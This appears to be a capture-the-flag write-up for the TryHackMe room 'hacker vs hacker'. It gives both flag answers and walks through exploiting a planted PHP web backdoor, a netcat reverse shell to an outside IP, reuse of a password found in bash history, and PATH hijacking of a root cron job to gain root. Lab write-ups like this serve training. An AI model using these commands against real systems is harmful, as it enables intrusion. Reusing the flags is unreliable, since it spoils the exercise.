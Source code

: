 # hacker vs hacker
## 10.10.213.219

## Task 1  Get on and boot them out!
+ What is the user.txt flag?`thm{af7e46b68081d4025c5ce10851430617}`
+ What is the proof.txt flag?`thm{7b708e5224f666d3562647816ee2a1d4}`


### Hand On 
+ Enumerate with `nmap -sC -sV 10.10.213.219 ` and `gobuster dir -u http://10.10.213.219 -w directory_wordlist.txt -x .pdf, .php, .html`
    - nmap found 2 port open
    - gobuster find `/uploads.php` , `/cvs` and run gobuster again this folder `gobuster dir -u http://10.10.213.219/cvs/ -w directory_wordlist.txt -x .pdf, .php, .html` and found `shell.pdf.php`

+ After research the payload have some parameter `$_GET['cmd']` and try to use that backdoor with `http://10.10.213.219/cvs/shell.pdf.php?cmd={PAYLOAD}`
+ The payload i use is using:
    - Base64 from `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.37.160 1337 >/tmp/f` and  decode it to make a `file.sh`  file
    - Then `chmod 777 file.sh; ./file.sh` 
+ You can try using PHP Reverse Shell decoded to base64 and echoing the decoded to rev.php
+ Then listen to the port 1337 using netcat `nc -lvp 1337` 
+ After got the shell check `.bash_history
```bash
www-data@b2r:/home/lachlan$ cat .bash_history
cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```
+ Look like the hacker change the password using `echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd` 
+ Try SSH `ssh lachlan@10.10.213.219` and put the password 
+ Ater a few minute look like our session get killed with message `nope` but our shell still live.
+ Thinking about the hacker have a crontab `vi /etc/cron.d/persistence` lets check the file
```bash
$cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```
+ Let abuse the `pskill` on that crontab with setup the `PATH` to use `/home/lachlan/bin`
```bash
cd /home/lachlan/bin
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.37.160 1234 >/tmp/f" > pkill
chmod +x pskill
export PATH=/home/lachlan/bin:$PATH
```
+ Listen on port 1234 and try ssh to trigger the pts and we got the root shell
+ And now we can stabilize the root shell using 
    - `python3 -c "import pty;pty.spawn('/bin/bash')"`
    - press `CTRL + Z` to make it on background `stty raw -echo;fg;` to make tty remove echoing and to make it on foreground
    - `export TERM=xterm` to make our shell as terminal sessions 
+ After that don't forget to change the crontab using `echo "" > /etc/cron.d/persistence && /etc/init.d/cron reload` 

## Looking for answer 
+ Check user folder or use command find to check.(That's root.txt on /root not `proof.txt`) 
```bash
cat user.txt
thm{af7e46b68081d4025c5ce10851430617}
root@b2r:~# cat root.txt
thm{7b708e5224f666d3562647816ee2a1d4}
```
